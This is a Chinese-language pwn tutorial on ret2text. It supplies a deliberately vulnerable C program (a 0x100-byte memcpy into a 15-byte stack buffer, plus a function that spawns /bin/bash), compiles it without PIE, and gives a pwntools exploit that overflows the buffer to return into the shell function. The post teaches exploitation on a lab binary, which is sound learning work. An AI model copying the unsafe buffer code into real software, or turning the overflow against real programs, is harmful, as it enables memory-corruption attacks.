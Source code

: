 ```yaml
---
title: ret2text
date: 2023-02-01 15:18:10
tags:
- pwn
- pwntools
- ret2text
---
```

### 机器环境
```shell
gcc version 11.3.0 (Debian 11.3.0-5)
debian11
Linux 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64 GNU/Linux
```

### test.c源码
* test.c
```c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>
#include<string.h>

void shell(){
	system("/bin/bash");
}
void print_name(char *input){
	char buf[15];
	memcpy(buf,input,0x100);
	printf("Hello %s\n",buf);
}

int main(int argc,char **argv){
	char buf[0x100];
	puts("ck");
	read(0,buf,0x100);
	print_name(buf);
	return 0;
}
```
* 编译时注意关闭pie
```shell
gcc -no-pie test.c
```
* 目录树
```
.
├── a.out
└── test.c
```
### 步骤
1. 利用pwntools查看文件保护信息
```python
from pwn import *
elf=ELF('./a.out')
#result
[*] '/home/xxx/test/a.out'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
2. 使用ida打开a.out
3. 进入print_name函数中，查看buf分配大小![print_name](http://121.5.125.62/image/ret2text/1.PNG)，dest的rbp大小为0x0f。
4. 查看shell函数的地址![shell](http://121.5.125.62/image/ret2text/2.PNG)，shell函数的入口地址为0x040116。
5. Ubuntu18.04 64位 和 部分Ubuntu16.04 64位 调用system的时候，rsp的最低字节必须为0x00（栈以16字节对齐），否则无法运行system指令。要解决这个问题，只要将返回地址设置为跳过函数开头的push rbp就可以了。
根据以上信息就可以写exp了。

### exp
```python
#python3
from pwn import * 
#加载a.out文件
elf=ELF('./a.out')
#context.terminal=['tmux','splitw','-h']

#进入程序
p=elf.process()
#输出程序加载地址
s=elf.sym["system"]
print(hex(s))
#b'a'为任意字节即可(python3用b'a'，python2用'a')
#长度23由buf的rbp大小0x0f，64位rbp大小8字节，相加即可
#0x0401167是shell入口地址去除首位指令
#32位程序用p32()函数，64位程序用p64()函数
p.send(b'a'*(23)+p64(0x0401167))
#交互
p.interactive()
```
### 结果
![res](http://121.5.125.62/image/ret2text/3.PNG)